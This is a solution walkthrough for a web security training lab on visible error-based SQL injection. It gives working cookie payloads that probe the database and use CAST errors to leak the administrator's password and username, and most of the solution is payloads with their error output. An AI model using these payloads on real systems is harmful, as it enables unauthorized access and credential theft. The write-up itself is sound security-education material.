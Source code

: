 # Lab: Visible error-based SQL injection
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

## Solution

### Information gathering
At first we can test out the vulnerability and confirm the existence of the table 'users' and the username 'administrator'.

Adding a tick to the content of the cookie gives us an error:
```
TrackingId=IeRhAtOxNT0AuPb2'
```
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'IeRhAtOxNT0AuPb2''. Expected  char
```

Using the following query results in no error. So probably we have no Oracle database:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null)||'
```

We can also verify that the query runs correct by checking for a non existing table:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from test)||'
```
This will produce the following error message:
```
ERROR: relation "test" does not exist Position: 73
```

To confirm the existence of the 'users' table we can just query the table:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from users)||'
```
We get an error:
```
ERROR: more than one row returned by a subquery used as an expression
```
This error tells us, that the answer to the query contains multiple rows. So the table exists.

If we limit the query to only one row we get no error:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from users limit 1)||'
```

The next step is to comfirm the username 'administrator'. For that we have to use a conditional error. For example this one:
```
TrackingId=IeRhAtOxNT0AuPb2'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```
But we get an error:
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '2Dea5evkp3l2nR4B'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0)'. Expected  char
```

Seems like there is a character limit. We can also verify this by modifying the query:
```
TrackingId='||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = ''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END F'. Expected  char
```

### Cast
At this point we remember a part of the description in relation to the usage of `CAST`: _This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query._

`CAST` converts one data type into another. If it results in an error, for example because of a bad conversion, it can reveal the data in the error message.

So using `CAST` and shorten the query will probably help us at this point:
```
TrackingId='||cast((select password from users limit 1) as int)||'
```
The error message seems like a password, that we are looking for:
```
ERROR: invalid input syntax for type integer: "h6wrphwn9z1i1l4qa59m"
```

To get the related user to that password we have to adjust the column:
```
TrackingId='||cast((select username from users limit 1) as int)||'
```
```
ERROR: invalid input syntax for type integer: "administrator"
```
The user is actually the administrator!

Aswell we can use the following syntax:
```
TrackingId=' and cast((select username from users limit 1) as int)=1 --
TrackingId=' and cast((select password from users limit 1) as int)=1 --
```

Logging in with those credentials will solve the lab.
